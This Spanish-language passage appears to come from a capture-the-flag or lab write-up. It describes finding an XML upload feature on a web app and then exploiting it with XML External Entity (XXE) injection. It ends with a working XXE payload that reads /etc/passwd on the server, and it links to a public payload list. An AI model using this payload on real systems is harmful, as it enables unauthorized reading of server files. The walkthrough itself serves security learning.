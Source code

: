 Al regresar a la página principal, notamos la adición de algunos botones con nuevas funcionalidades.

![access_login](access_login.png)

El botón "`Upload`" es de suma importancia, ya que nos permite cargar archivos en el servidor. Al hacerlo, aparece el siguiente mensaje:

![xml](xml.png)

Al realizar una inspección del código fuente del mensaje de error, se revela que el servidor está esperando un archivo en formato `XML`.

```bash
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Así que procedemos a crear un archivo en formato `XML`, asegurándonos de respetar el formato del ejemplo proporcionado.

```xml
<post>
  <title>Test Post</title>
  <description>Testing...</description>
  <markdown>
    Example Markdown
  </markdown>
</post>
```

Al cargar el archivo, se nos redirige al siguiente formulario.

![edit_article](edit_article.png)

### XXE Injection

Dado que el sitio claramente acepta `XML`, analiza los datos enviados y los muestra de nuevo, esto crea una oportunidad para realizar un XML External Entity (`XXE`).

En esta etapa, hay varios [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe) que podríamos probar. Primero, intentamos leer el archivo `/etc/passwd`:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<post>
  <title>Test Post</title>
  <description>Testing...</description>
  <markdown>&xxe;</markdown>
</post>
```
